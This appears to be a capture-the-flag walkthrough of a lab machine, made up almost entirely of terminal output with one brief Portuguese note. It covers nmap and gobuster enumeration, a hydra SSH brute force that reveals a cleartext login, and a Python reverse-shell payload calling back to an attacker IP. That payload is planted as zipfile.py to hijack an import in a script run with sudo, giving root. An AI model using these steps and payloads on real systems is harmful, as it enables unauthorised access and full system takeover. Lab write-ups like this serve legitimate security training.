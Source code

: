 '''
┌──(xnv㉿Kali)-[~]
└─$ nmap -A 10.10.200.31                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-26 08:17 EST
Nmap scan report for 10.10.200.31
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
'''

'''
┌──(xnv㉿Kali)-[~]
└─$ gobuster dir -w directory-list-2.3-small.txt -u http://library.thm/ -t 100 -x txt,html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://library.thm/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
2021/11/26 10:45:20 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://library.thm/images/]
/index.html           (Status: 200) [Size: 5439]                                
/robots.txt           (Status: 200) [Size: 33]                                  
'''

'''
http://library.thm/robots.txt
agent: rockyou 
Disallow: /
'''

'''┌──(xnv㉿Kali)-[~]
└─$ hydra -l meliodas -P rockyou.txt 10.10.200.31 ssh  

[22][ssh] host: 10.10.200.31   login: meliodas   password: iloveyou1
'''

'''
meliodas@ubuntu:~$ cat user.txt 
***************************
'''

'''
No arquivo bak.py , ele tem o import zipfile

então cria um arquivo chamado zipfile.py e coloca o reverse


import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.9.6.80",4455));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
'''

'''
meliodas@ubuntu:~$ sudo python3 /home/meliodas/bak.py
'''

'''
# cat /root/root.txt
******************************